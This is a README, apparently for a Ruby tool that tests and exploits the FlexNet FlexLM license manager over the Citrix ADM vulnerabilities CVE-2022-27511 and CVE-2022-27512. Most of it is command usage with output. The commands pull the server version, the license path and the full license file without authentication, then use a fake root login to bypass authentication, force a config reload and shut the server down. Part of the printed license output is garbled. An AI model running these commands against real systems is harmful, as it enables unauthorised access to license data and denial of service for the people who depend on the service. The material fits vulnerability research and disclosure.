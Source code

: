 Testing / exploitation tools for FlexNet's FlexLM license manager.

This license manager is used by a whole lotta software, but we developed this
for Citrix ADM vulnerabilities (CVE-2022-27511 and CVE-2022-27512).

# Usage

## Unauthenticated Stuff

The following commands require no authentication, and can be amazingly helpful!

To get a version number:

```
$ ruby ./flexnet-tools.rb 10.0.0.8 version
Server reported: v11.16.6.0
```

License path:

```
$ ruby ./flexnet-tools.rb 10.0.0.8 path
LW37/mpsconfig/license/citrix_startup.lic
```

List of available licensing services:

```
$ ruby ./flexnet-tools.rb 10.0.0.8 dlist
Lv7CITRIX
```

Full license file (yes, it serves this without auth):

```
$ ruby ./flexnet-tools.rb 10.0.0.8 license
L6195# DO NOT REMOVE THIS COMMENT LINE
# "のコメント行は削除しLL6061NEN
# NE SUPPRIMEZ PAS CETTE LIGNE DE COMMENTAIRE
# NO ELIMINAR ESTA LÍNL5927IX PORT=7279
USE_SERVER
#
#
INCREMENT CITRIX CITRIX 2038.0101 permanentLQ5793IGN="0DC4 A818 \
        CE0C ED78 1FED 3C6C CB56 8E22 7DF8 9F78 BE36 6928 96DD 2LG5659D51 1F9B \
        141C 9A01 FA1A EB22"
[...]
```

## Semi-Authenticated Stuff

These are endpoints that kinda sometimes require authentication, but only if
the application is started with `-2 -p`.. as of this writing, even if it is, it
can be bypassed anyways.

This command will reload the license file.. pass the `login` parameter to do a
fake login first, which will let you run restricted commands:

```
$ ruby ./flexnet-tools.rb 10.0.0.9 lmreread
41a10000000[...]

$ ruby ./flexnet-tools.rb 10.0.0.9 lmreread login
Authenticating with username 'root'
2f680ef30020011341414141
```

This doesn't do much, besides force the server to reload its config. But for
extra fun, you can also shut down the server:

```
$ ruby ./flexnet-tools.rb 10.0.0.9 lmdown
48102d31313900000000[...]

$ ruby ./flexnet-tools.rb 10.0.0.9 lmdown login
Authenticating with username 'root'

$ ruby ./flexnet-tools.rb 10.0.0.9 lmdown login
Traceback (most recent call last):
        2: from ./flexnet-tools.rb:21:in `<main>'
        1: from ./flexnet-tools.rb:21:in `new'
./flexnet-tools.rb:21:in `initialize': Connection refused - connect(2) for "10.0.0.9" port 27000 (Errno::ECONNREFUSED)
```

Probably best not to do that on a production host. :)
